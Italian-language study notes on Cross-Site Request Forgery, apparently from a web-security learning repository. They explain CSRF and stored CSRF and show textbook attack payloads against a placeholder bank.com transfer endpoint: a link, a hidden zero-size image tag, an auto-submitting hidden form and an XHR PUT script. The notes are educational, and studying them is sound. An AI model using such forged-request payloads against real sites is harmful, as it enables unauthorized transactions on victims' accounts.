 ## CSRF

- https://www.owasp.org/index.php/Cross-Site_Request_Forgery
- http://www.cgisecurity.com/csrf-faq.html
- https://en.wikipedia.org/wiki/Cross-site_request_forgery

Cross-Site Request Forgery forza l'utente a fare una richiesta malevola a un sito su cui è autenticato.
L'attacco ha come obiettivo le richieste che cambiano lo stato interno del server, non il furto di dati; infatti l'attaccante non ha modo di vedere la risposta alla richiesta malevola.
Si ha una vulnerabilità "stored CSRF" quando l'attaccante è in grado di rendere persistente l'attacco direttamente sul sito vulnerabile.
A tale scopo si memorizza un tag IMG o IFRAME in un campo che accetta HTML o si realizza un più complesso attacco di XSS.

L'attaccante ha l'obiettivo di far cliccare alla vittima il tag a o ad aprire l'email col tag img. Nell'esempio l'immagine non viene visualizzata in quanto ha altezza e larghezza pari a `0`.

Scenario GET:

- tag a: `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`

- tag img: `<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`

Scenario POST:

Richiesta originale:

```
POST http://bank.com/transfer.do HTTP/1.1

acct=BOB&amount=100
```

Richiesta malevola:

- con interazione della vittima

```
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```

- senza interazione della vittima

```
<body onload="document.forms[0].submit()">

<form ...>
```

Scenario API

Richiesta originale:

```
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```

Richiesta malevola:

```
<script>
	function put() {
		var x = new XMLHttpRequest();
		x.open("PUT","http://bank.com/transfer.do",true);
		x.setRequestHeader("Content-Type", "application/json");
		x.send(JSON.stringify({"acct":"BOB", "amount":100}));
	}
</script>

<body onload="put()">
```

Nell'ultimo esempio, la richiesta **non** viene eseguita dai moderni browser grazie alla restrizione *same-origin policy*.
Questa protezione è abilitata di default, a meno che il server abiliti esplicitamente le richieste cross-origin da uno o più siti usando CORS con l'header `Access-Control-Allow-Origin: *`.

### CSRF - Medium

### CSRF - High

